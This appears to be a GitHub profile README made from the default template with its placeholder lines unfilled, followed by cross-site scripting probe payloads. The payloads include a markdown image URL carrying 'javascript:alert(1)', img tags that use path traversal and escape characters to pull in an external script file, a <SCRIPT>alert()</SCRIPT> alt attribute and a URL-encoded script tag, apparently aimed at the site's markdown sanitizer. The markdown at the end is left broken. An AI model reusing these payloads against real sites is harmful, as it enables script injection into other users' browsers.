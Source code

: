 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&javascript:alert(1);)
![

<img src="../../../../../../../\r89shi.github.io/teste.js" alt="\b\<SCRIPT>alert()</SCRIPT>">
<img src="\b../../../../../../../\b\b%3cscript%3ehttps://github.com/r89shi/r89shi.github.io/blob/master/teste.js%3c/script%3e" >

](()
